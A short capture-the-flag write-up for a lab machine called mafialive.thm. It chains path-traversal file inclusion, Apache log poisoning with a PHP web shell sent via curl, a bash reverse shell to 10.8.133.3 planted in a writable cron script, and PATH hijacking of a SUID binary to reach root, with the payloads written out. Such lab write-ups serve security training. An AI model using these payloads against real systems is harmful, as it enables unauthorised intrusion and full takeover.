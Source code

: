 start with nmap

http


found : mafialive.thm --> added in /etc/hosts

email found : support@mafialive.thm

mafialive.thm --> underdevelopement

/robots.txt --> test.php

http://mafialive.thm/test.php?view=/var/www/html/development_testing/robots.txt

we can enumeration /developement_testing only. outside this directory we not allowed directory listing.

fuzz other endpoint than `view`


payload worked : http://mafialive.thm/test.php?view=/var/www/html/development_testing/..///////..///////..///////..///////etc/passwd


get shell by log poising.

`curl http://mafialive.thm -A "<?php system(\$_GET['cmd']);?>"`

then `http://mafialive.thm/test.php?view=/var/www/html/developement_testing/..///////..///////..///////..////////var/log//apache2/access.log&cmd=id`

in response we get

got shell.

cronjob found for archanjal:

`*/1 *   * * *   archangel /opt/helloworld.sh`

we can write this file.
add bash rev shell to file and get sheel as arcahngel.

`bash -i >& /dev/tcp/10.8.133.3/1337 0>&1`

in `~/secret` we found a executable `backup`

suid bit is set so we can run it as user.

run it. it uses cp without the full path.

create cp with "/bin/bash" . give execute permission. add export path with cp direcotry.
run backup get root shell.